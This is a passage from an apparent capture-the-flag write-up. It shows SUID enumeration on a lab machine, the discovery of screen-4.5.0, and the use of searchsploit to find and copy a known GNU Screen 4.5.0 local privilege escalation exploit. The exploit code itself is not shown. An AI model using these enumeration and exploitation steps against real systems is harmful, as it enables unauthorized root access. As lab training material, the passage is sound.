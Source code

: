 Let's look at SUID files:

```bash
joker@ubuntu:~$ find / -user root -perm -u=s 2>/dev/null

/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/sudo
/bin/fusermount
/bin/su
/bin/ping6
/bin/screen-4.5.0
/bin/screen-4.5.0.old
/bin/mount
/bin/ping
/bin/umount
```

After checking most of them on GTFObins [3] I didn't get much. However, when searching for exploits, I found:

```bash
searchsploit screen 4.5.0   

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                                                                                                                                                             | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                                                                                                                                                       | linux/local/41152.txt
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Shellcodes: No Results
```

Let's try it !!

```bash
searchsploit -m linux/local/41154.sh

  Exploit: GNU Screen 4.5.0 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/41154
     Path: /usr/share/exploitdb/exploits/linux/local/41154.sh
    Codes: N/A
 Verified: True
File Type: Bourne-Again shell script, ASCII text executable
Copied to: /home/kali/ctf/thm/Madness/41154.sh
```
